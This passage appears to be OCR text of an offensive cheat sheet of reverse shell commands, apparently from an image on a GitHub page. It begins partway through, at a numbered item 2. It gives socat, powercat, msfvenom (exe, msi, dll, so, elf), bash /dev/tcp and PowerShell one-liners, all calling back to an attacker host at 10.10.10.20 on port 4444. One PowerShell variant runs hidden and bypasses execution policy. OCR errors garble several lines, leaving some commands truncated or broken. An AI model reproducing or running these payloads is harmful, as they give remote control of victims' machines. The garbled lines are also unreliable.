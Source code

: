 **2: socat (Stable)**
Attacker: **socat tcp-l:4444 file:`tty`,raw,echo=**
Victim (Linux): **socat TCP:10.10.10.20:4444 EXEC:"bash -
li",pty,stderr,sigint,setsid,sane**

**3: powercat**
Victim: **powercat -c 10.10.10.20 -p 4444 -e cmd.exe**

**4: msfvenom
Windows:
exe:** msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
4444 - f exe > exp.exe
**msi:** msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
4444 - f msi > exp.msi
**dll:** msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
4444 - f dll> exp.dll
**Linux:
so:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
4444 - f elf-so > shell.so
**elf:** msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.20 LPORT=
4444 - f elf >payload

**5: Bash**
bash -i >& /dev/tcp/10.10.10.20/4444 0>&
bash -c 'bash -i >& /dev/tcp/10.10.10.20/4444 0>&1'
0<&196;exec196<>/dev/tcp/10.10.10.20/4444;sh <&196 >&1962>&



0<&196;exec196<>/dev/tcp/10.10.10.20/4444;sh <&196 >&1962>&
/bin/bash -l >/dev/tcp/10.10.10.20/4444 0<&1 2>&

**6: Powershell**
```
a: powershell -nop -c "$client = New-Object
System.Net.Sockets.TCPClient('10.10.10.20',4444);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -
TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback =
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '>
';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()"


b: powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object
System.Net.Sockets.TCPClient("10.10.10.20",4444);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -
TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback =
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path +
"> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
